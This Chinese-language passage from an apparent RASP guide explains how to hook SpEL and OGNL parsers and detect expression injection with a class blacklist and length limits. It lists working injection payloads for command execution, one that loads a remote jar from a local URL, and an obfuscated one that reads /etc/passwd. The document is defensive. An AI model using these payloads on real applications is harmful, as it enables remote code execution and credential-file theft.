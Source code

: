 ## 10.4 Hook点与检测算法

### 10.4.1 Hook点的选择

对于SPEL表达式注入，选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法，该方法的源码如下：

![img_8.png](img_8.png)

对于OGNL表达式注入，选择类ognl.OgnlParser的`topLevelExpression`方法，该方法的源码如下：

![截屏2024-04-05 下午6.03.16.png](img_9.png)

### 10.4.2 表达式注入与检测算法

由于OGNL与SPEL表达式除了Hook方法不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 正常与恶意表达式举例

先来看下正常的业务使用的表达式：
```java

```

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 黑名单检测算法

检测表达式中是否存在指定的类，这些类能够执行命令、脚本或者读取文件等，但是这种方式存在
```java
System
Runtime
ProcessBuilder
java.lang.Runtime
java.lang.ProcessBuilder
javax.script.ScriptEngineManager
java.lang.System
org.springframework.cglib.core.ReflectUtils
java.io.File
java.net.URL        
javax.management.remote.rmi.RMIConnector
// ....
```

### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SPEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
这种方式容易误报，特殊的业务场景会用到较长的表达式，而且表达式的长度需要收集业务特征来确定，运营成本较高。


下图为SPEL表达式的常用检测算法，黑名单算法的优先级高于长度限制算法。
 ![img_10.png](img_10.png)

参考：https://xz.aliyun.com/t/9245?time__1311=n4%2BxuDgD9DyDRGCDCD0DBMb7evwoa4ECDfrD&alichlgref=https%3A%2F%2Fbaidu.com%2F